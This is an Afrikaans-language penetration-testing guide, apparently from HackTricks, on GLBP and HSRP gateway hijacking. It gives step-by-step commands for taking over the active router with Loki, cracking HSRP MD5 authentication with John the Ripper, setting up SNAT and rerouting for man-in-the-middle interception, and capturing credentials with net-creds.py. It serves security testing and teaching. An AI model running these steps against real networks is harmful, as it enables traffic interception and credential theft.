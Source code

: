 # GLBP & HSRP Aanvalle

{{#include ../../banners/hacktricks-training.md}}


## FHRP Hijacking Oorsig

### Insigte in FHRP

FHRP is ontwerp om netwerkrobustheid te bied deur verskeie routers in 'n enkele virtuele eenheid te kombineer, wat laaiverdeling en fouttoleransie verbeter. Cisco Systems het prominente protokolle in hierdie suite bekendgestel, soos GLBP en HSRP.

### GLBP Protokol Insigte

Cisco se skepping, GLBP, funksioneer op die TCP/IP-stapel, wat UDP op poort 3222 vir kommunikasie gebruik. Routers in 'n GLBP-groep ruil "hello" pakkette uit op 3-sekonde-intervalle. As 'n router nie hierdie pakkette vir 10 sekondes kan stuur nie, word dit vermoedelik aflyn. Hierdie timers is egter nie vas nie en kan gewysig word.

### GLBP Operasies en Laaiverdeling

GLBP val op deur laaiverdeling oor routers moontlik te maak met behulp van 'n enkele virtuele IP gekoppel aan verskeie virtuele MAC-adresse. In 'n GLBP-groep is elke router betrokke by pakkie-oordrag. Anders as HSRP/VRRP, bied GLBP werklike laaibalans deur verskeie meganismes:

- **Gashere-afhanklike Laaibalans:** Handhaaf 'n konsekwente AVF MAC-adres toewysing aan 'n gasheer, noodsaaklik vir stabiele NAT-konfigurasies.
- **Rond-robin Laaibalans:** Die standaardbenadering, wat AVF MAC-adres toewysing tussen versoekende gashere afwisselend.
- **Gewigte Rond-robin Laaibalans:** Verdeel die las gebaseer op vooraf gedefinieerde "Gewig" metrieks.

### Sleutelelemente en Terminologie in GLBP

- **AVG (Aktiewe Virtuele Gateway):** Die hoofrouter, verantwoordelik vir die toewysing van MAC-adresse aan gelykwaardige routers.
- **AVF (Aktiewe Virtuele Oordragter):** 'n Router wat aangewys is om netwerkverkeer te bestuur.
- **GLBP Prioriteit:** 'n metrie wat die AVG bepaal, wat begin by 'n standaard van 100 en wissel tussen 1 en 255.
- **GLBP Gewig:** Reflekteer die huidige las op 'n router, verstelbaar of handmatig of deur Objektiewe Volg.
- **GLBP Virtuele IP Adres:** Dien as die netwerk se standaardgateway vir alle gekonnekteerde toestelle.

Vir interaksies gebruik GLBP die gereserveerde multicast adres 224.0.0.102 en UDP poort 3222. Routers stuur "hello" pakkette uit op 3-sekonde-intervalle, en word as nie-operasioneel beskou as 'n pakkie oor 'n 10-sekonde periode gemis word.

### GLBP Aanval Mekanis

'n Aanvaller kan die primêre router word deur 'n GLBP-pakkie met die hoogste prioriteitswaarde (255) te stuur. Dit kan lei tot DoS of MITM-aanvalle, wat verkeer se onderskepping of herleiding moontlik maak.

### Uitvoering van 'n GLBP Aanval met Loki

[Loki](https://github.com/raizo62/loki_on_kali) kan 'n GLBP-aanval uitvoer deur 'n pakkie met prioriteit en gewig op 255 in te spuit. Voor-aanval stappe behels die insameling van inligting soos die virtuele IP-adres, teenwoordigheid van outentisering, en router prioriteitswaardes met behulp van gereedskap soos Wireshark.

Aanval Stappe:

1. Skakel oor na promiscuous mode en stel IP-oordrag in.
2. Identifiseer die teikenrouter en verkry sy IP.
3. Genereer 'n Gratuitous ARP.
4. Spuit 'n kwaadwillige GLBP-pakkie in, wat die AVG naboots.
5. Ken 'n sekondêre IP-adres toe aan die aanvaller se netwerkinterfaan, wat die GLBP virtuele IP weerspieël.
6. Implementeer SNAT vir volledige verkeer sigbaarheid.
7. Pas routing aan om voortgesette internettoegang deur die oorspronklike AVG-router te verseker.

Deur hierdie stappe te volg, posisioneer die aanvaller hulself as 'n "man in die middel," wat in staat is om netwerkverkeer te onderskep en te analiseer, insluitend ongeënkripteerde of sensitiewe data.

Vir demonstrasie, hier is die vereiste opdrag-snippets:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
Monitoring en die onderskepping van verkeer kan gedoen word met behulp van net-creds.py of soortgelyke gereedskap om data wat deur die gecompromitteerde netwerk vloei, te vang en te analiseer.

### Passiewe Verklaring van HSRP Hijacking met Opdrag Besonderhede

#### Oorsig van HSRP (Hot Standby Router/Redundancy Protocol)

HSRP is 'n Cisco eie protokol wat ontwerp is vir netwerk gateway redundansie. Dit stel die konfigurasie van verskeie fisiese routers in 'n enkele logiese eenheid met 'n gedeelde IP-adres moontlik. Hierdie logiese eenheid word bestuur deur 'n primêre router wat verantwoordelik is vir die rigting van verkeer. Anders as GLBP, wat metrieks soos prioriteit en gewig vir lasbalansering gebruik, staat HSRP op 'n enkele aktiewe router vir verkeersbestuur.

#### Rolle en Terminologie in HSRP

- **HSRP Aktiewe Router**: Die toestel wat as die gateway optree, wat die verkeersvloei bestuur.
- **HSRP Standby Router**: 'n Rugsteunrouter, gereed om oor te neem as die aktiewe router faal.
- **HSRP Groep**: 'n Stel routers wat saamwerk om 'n enkele veerkragtige virtuele router te vorm.
- **HSRP MAC Adres**: 'n virtuele MAC adres wat aan die logiese router in die HSRP opstelling toegeken is.
- **HSRP Virtuele IP Adres**: Die virtuele IP adres van die HSRP groep, wat as die standaard gateway vir gekonnekteerde toestelle optree.

#### HSRP Weergawes

HSRP kom in twee weergawes, HSRPv1 en HSRPv2, wat hoofsaaklik verskil in groep kapasiteit, multicast IP gebruik, en virtuele MAC adres struktuur. Die protokol gebruik spesifieke multicast IP adresse vir diens inligting uitruil, met Hello pakkette wat elke 3 sekondes gestuur word. 'n Router word as inaktief beskou as daar geen pakket binne 'n 10-sekonde interval ontvang word nie.

#### HSRP Aanval Meganisme

HSRP aanvalle behels die gedwonge oorneem van die Aktiewe Router se rol deur 'n maksimum prioriteitswaarde in te spuit. Dit kan lei tot 'n Man-In-The-Middle (MITM) aanval. Belangrike voor-aanval stappe sluit in die insameling van data oor die HSRP opstelling, wat gedoen kan word met behulp van Wireshark vir verkeersanalise.

#### Stappe om HSRP Outentikasie te Omseil

1. Stoor die netwerkverkeer wat HSRP data bevat as 'n .pcap lêer.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Trek MD5 hashes uit die .pcap lêer met hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Breek die MD5 hashes met John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Voer HSRP Inspuiting uit met Loki**

1. Begin Loki om HSRP advertensies te identifiseer.
2. Stel die netwerkinterface in op promiscuous mode en stel IP forwarding in.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Gebruik Loki om die spesifieke router te teiken, voer die gekraakte HSRP wagwoord in, en voer nodige konfigurasies uit om die Aktiewe Router na te boots.
4. Nadat jy die Aktiewe Router rol verkry het, konfigureer jou netwerkinterface en IP tafels om die wettige verkeer te onderskep.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Wysig die routeringstabel om verkeer deur die voormalige Aktiewe Router te router.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Gebruik net-creds.py of 'n soortgelyke nut om akrediteer te vang uit die onderskepte verkeer.
```shell
sudo python2 net-creds.py -i eth0
```

Die uitvoering van hierdie stappe plaas die aanvaller in 'n posisie om verkeer te onderskep en te manipuleer, soortgelyk aan die prosedure vir GLBP hijacking. Dit beklemtoon die kwesbaarheid in redundansie protokolle soos HSRP en die behoefte aan robuuste sekuriteitsmaatreëls.

## Verwysings

- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)


{{#include ../../banners/hacktricks-training.md}}
